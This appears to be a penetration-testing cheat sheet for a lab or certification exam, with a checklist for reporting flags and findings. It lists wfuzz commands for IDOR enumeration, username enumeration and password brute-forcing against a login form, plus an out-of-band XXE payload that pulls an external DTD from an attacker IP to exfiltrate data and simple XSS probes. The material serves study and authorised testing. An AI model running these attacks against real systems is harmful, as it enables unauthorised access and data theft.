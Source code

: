 ### IDOR 

```
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ.txt"
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ"
```

### Username / PW Fuzzing 
```
wfuzz -c -z file,/usr/share/SecLists/Usernames/top-username-shortlist.txt --hc 404,403 "$URL/login.php?user=FUZZ"
```
```
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404,403 -d "username=admin&password=FUZZ" "$URL/login.php"
```

### Manual Copy/Payloads (when nothing works)
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://192.168.88.131/external.dtd"> 
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>

<script>alert(1)</script>
<img src=x onerrror='alert(1)'>	
```
	
### Reporting Checklist 

Remember to work on a machine and document/report fully before moving on to another machine

* Reported in Control Panel?
* Vulnerability reported?
	* Language describing summary of vuln: "I did XYZ for recon (see step XXXXX) and found services listening on ports ABC, after enumerating/visting the service running on port X, I found (web server, API etc). After finding the service I performed enumeration using the (enumeration tool, dirsearch etc) with the XYZ wordlist (see step XXXXX) which allowed me to find page X. After finding page X, I found the vuln (vuln) in the XYZ functionality by using the (tool) to enumerate that functionality. The (vuln) which is a vuln that allows a user to do XYZ. In the context of the machine I was able to accomplish X through exploiting that vuln with the following payload/code(insert code)"
* Screenshot of local.txt?
	* If found in the web ui, screenshot showing the flag in the UI as well as Burp
	* If found in a shell, screenshot showing the cat command on the flag, as well as ip if we can show that
* Screenshot of proof.txt?
	* If found in the web ui, screenshot showing the flag in the UI as well as Burp
	* If found in a shell, screenshot showing the cat command on the flag, as well as ip if we can show that
* Summary 
	* Step by step summary - number each step and reference them in the vuln section
	* Insert a screenshot for each relevant step
